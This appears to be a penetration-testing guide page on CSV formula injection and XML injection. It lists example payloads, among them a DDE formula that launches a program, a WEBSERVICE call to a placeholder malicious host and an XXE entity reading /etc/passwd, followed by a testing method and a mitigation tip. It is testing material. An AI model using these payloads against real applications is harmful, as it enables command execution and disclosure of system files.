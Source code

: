 ```yaml
---
description: >-
  XML/CSV Injection, also known as Formula Injection or CSV Injection, occurs
  when a malicious user inputs data into an application that is later exported
  to an XML or CSV file.
---
```


# XML/CSV Injection

## Example Tests for XML/CSV Injection

When performing a penetration test, you can use various payloads to test for XML/CSV injection vulnerabilities. Below are some example commands and payloads that can be used to test if an application is vulnerable to XML/CSV injection.

### **Example Payloads for CSV Injection**

1.  **Basic Hyperlink Injection**

    ```plaintext
    =HYPERLINK("https://www.example.com","CLICK ME")
    ```
2.  **Potentially Dangerous Formula**

    ```plaintext
    =cmd|' /C calc'!A0
    ```
3.  **External Data Fetch**

    ```plaintext
    =WEBSERVICE("http://malicious-site.com/data")
    ```

### **Example Payloads for XML Injection**

1.  **Basic XML Injection**

    ```xml
    <name>&exfiltrate;</name>
    ```
2.  **Entity Injection**

    ```xml
    <!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
    <name>&xxe;</name>
    ```

## Testing Methodology

1. **Injecting Payloads**:
   * Identify fields in the application where you can input data that will be exported to XML or CSV files.
   * Input the example payloads into these fields.
2. **Export and Analysis**:
   * Export the data to an XML or CSV file from the application.
   * Open the exported file with a text editor to verify that the payloads are correctly injected.
   * Open the file with a spreadsheet program (e.g., Microsoft Excel) to see if the payloads execute as formulas.
3. **Observation and Mitigation**:
   * Observe the behaviour of the application and the spreadsheet program to detect any execution of malicious payloads.
   * Recommend encoding or sanitising the input data to prevent such injections.
